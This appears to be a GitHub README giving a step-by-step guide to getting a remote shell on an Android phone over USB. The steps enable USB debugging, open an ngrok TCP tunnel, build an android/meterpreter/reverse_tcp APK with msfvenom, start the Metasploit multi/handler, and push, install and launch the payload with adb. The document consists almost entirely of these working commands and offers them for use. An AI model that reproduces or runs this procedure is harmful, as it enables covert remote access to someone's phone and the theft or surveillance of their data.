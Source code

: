 # adb-phone-shell
How to get phone shell with msfvenom using USB connection with adb shell

# Getting shell
// First you gotta connect the phone with USB and then in developer options enable the USB-Debugging. You can access to developer options by pressing the version number of your phone 7 times.
adb devices

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/4e6dfc00-871f-4f07-90c3-0b94630e64fb)

adb shell

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/6db92d1c-3466-4448-8d37-7564bc6d398e)

# Opening listener port and creating the payload

ngrok tcp 1234

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/6b2dc2e8-833a-493d-b5ff-c313f816892a)

msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -o payload.apk

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/414ec97d-2df1-4651-9691-79ac6b9cb96f)

# Checking on multi handler

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 1234
run

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/980a5acb-e7f6-4b04-9599-e2809625e793)

# Pusing payload to the phone and downloading

adb push payload.apk /sdcard/
adb install payload.apk
adb shell am start -n com.metasploit.stage/com.metasploit.stage.MainActivity

![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/49b7d166-7cfd-4bb2-982a-60cbb50712c8)

